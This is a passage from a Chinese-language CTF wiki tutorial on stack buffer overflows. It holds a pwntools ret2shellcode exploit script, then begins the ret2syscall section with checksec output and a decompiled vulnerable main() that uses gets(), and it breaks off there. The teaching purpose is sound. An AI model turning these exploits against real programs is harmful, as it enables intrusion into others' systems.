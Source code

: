 那麼這次我們就控制程序執行 shellcode，也就是讀入 shellcode，然後控制程序執行 bss 段處的 shellcode。其中，相應的偏移計算類似於 ret2text 中的例子。

最後的 payload 如下：

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())
buf2_addr = 0x804a080

sh.sendline(shellcode.ljust(112, b'A') + p32(buf2_addr))
sh.interactive()
```

### 題目

- sniperoj-pwn100-shellcode-x86-64

## ret2syscall

### 原理

ret2syscall，即控制程序執行系統調用，獲取 shell。

### 例子

這裏我們繼續以 bamboofox 中的 ret2syscall 爲例。  

> 點擊下載: [ret2syscall](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2syscall/bamboofox-ret2syscall/rop)

首先檢測程序開啓的保護：

```shell
➜  ret2syscall checksec rop
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

可以看出，源程序爲 32 位，開啓了 NX 保護。接下來利用 IDA 進行反編譯：

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("This time, no system() and NO SHELLCODE!!!");
  puts("What do you plan to do?");
  gets(&v4);
  return 0;
}
```
